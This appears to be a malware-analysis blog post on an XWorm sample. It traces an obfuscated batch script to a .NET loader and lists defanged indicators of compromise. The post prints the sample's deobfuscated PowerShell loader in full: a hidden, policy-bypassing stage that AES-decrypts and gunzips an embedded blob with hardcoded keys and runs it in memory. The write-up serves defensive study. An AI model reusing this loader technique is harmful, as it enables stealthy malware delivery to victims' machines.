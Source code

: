 ## XWorm - Batch Deobfuscation - .NET Loader

This sample starts off with some batch & PowerShell deobfuscation, revealing a .NET loader which we can debug using DnSpy and module breakpoints to reveal the payload.

SHA 256: e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f

## Initial Batch Script

This sample starts with an obfuscated batch script which looks like the following:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/15a2ff27-e269-40d7-96fc-586d9093245b)

From the fourth line onward we can see that many set commands are taking place, we also see a lot of commented-out strings which don't seem to make a lot of sense right now, denoted by the ::

Towards the end of the script, it appears that those variables are being called and executed:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/56b8f863-19b1-42db-951a-7bfcd968584e)

A quick way to make sense of this script is by commenting out the lines that clear the terminal and exit, and adding "echo" commands before the variables are called.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/be36953d-e183-4e48-9ff8-f861c071a512)

Now if we execute this new script, we get the following:

``` powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe"
cd "C:\Users\mzheader\Desktop\"
"e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $_CASH_JPyoO = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')
('C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat').Split([Environment]::NewLine);foreach ($_CASH_ealtD in $_CASH_JPyoO) { if ($_CASH_ealtD.StartsWith(':: @')) {  $_CASH_tFaoL = $_CASH_ealtD.Substring(4); break; }; };$_CASH_tFaoL =
[System.Text.RegularExpressions.Regex]::Replace($_CASH_tFaoL, '_CASH_', '');$_CASH_epUJg = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($_CASH_tFaoL);$_CASH_pFavC = New-Object System.Security.Cryptography.AesManaged;$_CASH_pFavC.Mode = [System.Security.Cryptography.CipherMode]::CBC;$_CASH_pFavC.Padding =
[System.Security.Cryptography.PaddingMode]::PKCS7;$_CASH_pFavC.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=');$_CASH_pFavC.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('5IgM8xAuhLV8mV1KzrCEvg==');$_CASH_traoF =
$_CASH_pFavC.CreateDecryptor();$_CASH_epUJg = $_CASH_traoF.TransformFinalBlock($_CASH_epUJg, 0, $_CASH_epUJg.Length);$_CASH_traoF.Dispose();$_CASH_pFavC.Dispose();$_CASH_SjOoQ = New-Object System.IO.MemoryStream(, $_CASH_epUJg);$_CASH_DLltN = New-Object System.IO.MemoryStream;$_CASH_VzeZp = New-Object
System.IO.Compression.GZipStream($_CASH_SjOoQ, [IO.Compression.CompressionMode]::Decompress);$_CASH_VzeZp.CopyTo($_CASH_DLltN);$_CASH_VzeZp.Dispose();$_CASH_SjOoQ.Dispose();$_CASH_DLltN.Dispose();$_CASH_epUJg = $_CASH_DLltN.ToArray();$_CASH_JzGOp = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')
($_CASH_epUJg);$_CASH_PUHAS = $_CASH_JzGOp.EntryPoint;$_CASH_PUHAS.Invoke($null, (, [string[]] ('')))
```
We can make this a bit easier to read by replacing all semi-colons with new lines:

```powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe"
cd "C:\Users\mzheader\Desktop\"
"e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $_CASH_JPyoO = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat').Split([Environment]::NewLine)
foreach ($_CASH_ealtD in $_CASH_JPyoO) { if ($_CASH_ealtD.StartsWith(':: @')) {  $_CASH_tFaoL = $_CASH_ealtD.Substring(4)
 break
 }
 }
$_CASH_tFaoL = [System.Text.RegularExpressions.Regex]::Replace($_CASH_tFaoL, '_CASH_', '')
$_CASH_epUJg = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($_CASH_tFaoL)
$_CASH_pFavC = New-Object System.Security.Cryptography.AesManaged
$_CASH_pFavC.Mode = [System.Security.Cryptography.CipherMode]::CBC
$_CASH_pFavC.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$_CASH_pFavC.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=')
$_CASH_pFavC.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('5IgM8xAuhLV8mV1KzrCEvg==')
$_CASH_traoF = $_CASH_pFavC.CreateDecryptor()
$_CASH_epUJg = $_CASH_traoF.TransformFinalBlock($_CASH_epUJg, 0, $_CASH_epUJg.Length)
$_CASH_traoF.Dispose()
$_CASH_pFavC.Dispose()
$_CASH_SjOoQ = New-Object System.IO.MemoryStream(, $_CASH_epUJg)
$_CASH_DLltN = New-Object System.IO.MemoryStream
$_CASH_VzeZp = New-Object System.IO.Compression.GZipStream($_CASH_SjOoQ, [IO.Compression.CompressionMode]::Decompress)
$_CASH_VzeZp.CopyTo($_CASH_DLltN)
$_CASH_VzeZp.Dispose()
$_CASH_SjOoQ.Dispose()
$_CASH_DLltN.Dispose()
$_CASH_epUJg = $_CASH_DLltN.ToArray()
$_CASH_JzGOp = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($_CASH_epUJg)
$_CASH_PUHAS = $_CASH_JzGOp.EntryPoint
$_CASH_PUHAS.Invoke($null, (, [string[]] ('')))
```

**Command Line Breakdown:**
```powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe"
cd "C:\Users\mzheader\Desktop\"
```
It appears that the script is firstly copying PowerShell and moving it to the same directory & filename as the executed script, changing directory to that directory, and executing the newly copied binary of PowerShell.
```powershell
"e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $_CASH_JPyoO = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')
('C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat').Split([Environment]::NewLine)
```
A command is executed, with the reversed string of "ReadAllText" and it reads the initial batch script.
```powershell
foreach ($_CASH_ealtD in $_CASH_JPyoO) { if ($_CASH_ealtD.StartsWith(':: @')) {  $_CASH_tFaoL = $_CASH_ealtD.Substring(4)
```
From the initial script, it is looking for instances that start with ":: @" and takes everything from the 4th substring onwards, ie, all the content after the "::@"
The result is being saved as variable name "_CASH_tFaoL"
```powershell
$_CASH_tFaoL = [System.Text.RegularExpressions.Regex]::Replace($_CASH_tFaoL, '_CASH_', '')
```
The contents of _CASH_tFaoL is read, and all instances of "_CASH_" are replaced with nothing.
```powershell
$_CASH_epUJg = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($_CASH_tFaoL)
```
The string is decoded from Base64.
```powershell
$_CASH_pFavC = New-Object System.Security.Cryptography.AesManaged
$_CASH_pFavC.Mode = [System.Security.Cryptography.CipherMode]::CBC
$_CASH_pFavC.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$_CASH_pFavC.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=')
$_CASH_pFavC.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('5IgM8xAuhLV8mV1KzrCEvg==')
```
The decoded text is being AES-decrypted with Key "GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=" and IV "5IgM8xAuhLV8mV1KzrCEvg==".
```powershell
$_CASH_SjOoQ = New-Object System.IO.MemoryStream(, $_CASH_epUJg)
$_CASH_DLltN = New-Object System.IO.MemoryStream
$_CASH_VzeZp = New-Object System.IO.Compression.GZipStream($_CASH_SjOoQ, [IO.Compression.CompressionMode]::Decompress)
```
The decrypted text is being decompressed with gunzip.
```powershell
$_CASH_JzGOp = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($_CASH_epUJg)
$_CASH_PUHAS = $_CASH_JzGOp.EntryPoint
$_CASH_PUHAS.Invoke($null, (, [string[]] ('')))
```
The contents of which are being loaded/executed in memory.

Now that we know what the script is doing, we'll search for instances of "::@" in the initial script, perform the operations and we should be left with some form of executable code.

We see our string starting with "::@", which is a huge blob of text.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d8d60598-7491-4893-8892-2d4d563c8206)

We'll take this blob and throw it in CyberChef with the following operators to decode and decrypt the content as the script does.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d45309f5-a055-4251-b051-96766c3050b3)

We are left with an executable file.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/0b251516-6528-43ff-b54a-ced8d90e169f)

## .NET Analysis

Detect It Easy tells us that this is a .NET binary, and it has a fairly interesting entropy level, around mid-way but it remains consistent.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c6ef6c1c-b1dd-4fdc-85d8-f9a6ed669266)

Loading the executable into DnSpy we can see it is heavily obfuscated, but there are references to LoadPE. This, and the level of entropy suggests it's likely a loader and not our final payload.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/23ac0071-6c6b-4f02-b400-45a40b3ab74e)

Knowing this, we can set a module breakpoint and try to extract anything interesting that is being loaded in memory.

Head to Module Breakpoints and set a breakpoint for * (anything)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/31865716-bb47-45d9-aabb-332c2cc0f323)

Now we begin to debug the executable, taking note of all loaded modules.

As we step through, there is a very interesting module being loaded which we should interrogate further.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b4c94a3e-5255-4d35-b37c-b36ba64ba74e)

We can right-click "Load Module" to decompile it in our current DnSpy session.

This module doesn't appear to be obfuscated and we can instantly see where the Settings are stored.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9e5f87ea-7e84-4d94-8ad4-16fef0a92b75)

**Settings:**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9b67b4f1-e3a9-4684-9cc1-009723118aff)


IOCs:
IPv4: 65.1.224[.]214
SHA 256: E5DAC6F6D2AB4C479C5C3E91064F335DE141C8399BD93F8267E13F134C578C0F
SHA 256: EC7890D7D688DAC4EF8EF6B6E2A832280EA47BF404B851B97CDF7C709C389E65
SHA 256: CBB7FC940A1E9B3DADB1EC625554325B5DD9A95E34A05A0EC6F7206D2128DAB9








